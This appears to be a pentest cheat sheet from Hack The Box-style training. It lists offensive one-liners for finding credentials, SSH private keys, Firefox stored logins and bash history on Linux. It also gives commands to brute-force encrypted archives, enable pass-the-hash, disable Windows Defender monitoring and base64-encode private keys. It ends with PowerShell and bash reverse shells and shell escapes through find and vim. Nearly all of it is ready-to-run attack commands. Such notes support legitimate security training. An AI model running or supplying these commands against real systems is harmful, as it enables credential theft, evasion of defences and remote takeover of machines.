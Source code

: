 File Search Commands

#Searching for configuration files in Linux system
```bash
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```
#Searching for Credentials in Configuration Files
```bash
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```

#Databases
```bash
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```

#Finding .txt files & files with no extensions

```bash
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```

#Finding script files

```bash
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```

#Finding SSH private keys

```bash
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
```

#Finding SSH public keys

```bash
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"
```

#Bash history
```bash
tail -n5 /home/*/.bash*
```

#Log fils
```bash
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```

#Firefox stored credentials
```bash
ls -l .mozilla/firefox/ | grep default

cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
```

#Enable Restricted Admin Mode to Allow PtH
```console
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

#Hunting for files
```bash
for ext in $(echo ".xls .xls* .xltx .csv .od* .doc .doc* .pdf .pot .pot* .pp*");do echo -e "\nFile extension: " $ext; find / -name *$ext 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```

#Hunting for SSH keys
```bash
grep -rnw "PRIVATE KEY" /* 2>/dev/null | grep ":1"
```

Download All File Extensions
```bash
curl -s https://fileinfo.com/filetypes/compressed | html2text | awk '{print tolower($1)}' | grep "\." | tee -a compressed_ext.txt
```

Using a for-loop to Display Extracted Contents
```bash
for i in $(cat rockyou.txt);do openssl enc -aes-256-cbc -d -in GZIP.gzip -k $i 2>/dev/null| tar xz;done
```

Using bitlocker2john
```bash
muskypirate@htb[/htb]$ bitlocker2john -i Backup.vhd > backup.hashes
muskypirate@htb[/htb]$ grep "bitlocker\$0" backup.hashes > backup.hash
muskypirate@htb[/htb]$ cat backup.hash

$bitlocker$0$16$02b329c0453b9273f2fc1b927443b5fe$1048576$12$00b0a67f961dd80103000000$60$d59f37e...SNIP...70696f7eab6b
```

Encode (convert) file to base64
```bash
cat id_rsa |base64 -w 0;echo
```

#Disable Antivirus Monitoring in Powershell

```powershell
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```

#Powershell one liner Reverse shell payload (change IP Address & issued in command prompt)
````powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
````

#Bash reverse shell one liner
```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f
```

#Spawn the TTY shell session using Python
```bash
python -c 'import pty; pty.spawn("/bin/sh")' 
```

#Using find to shell
```bash
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;

find . -exec /bin/sh \; -quit
```

#Using vim to shell
```bash
vim -c ':!/bin/sh'

vim
:set shell=/bin/sh
:shell
```

#Checking plugins' version for wordpress
```bash
 curl -s -X GET http://blog.inlanefreight.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'wp-content/plugins/*' | cut -d"'" -f2
```

#Checking themes' version for wordpress
```bash
 curl -s -X GET http://blog.inlanefreight.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'themes' | cut -d"'" -f2
```
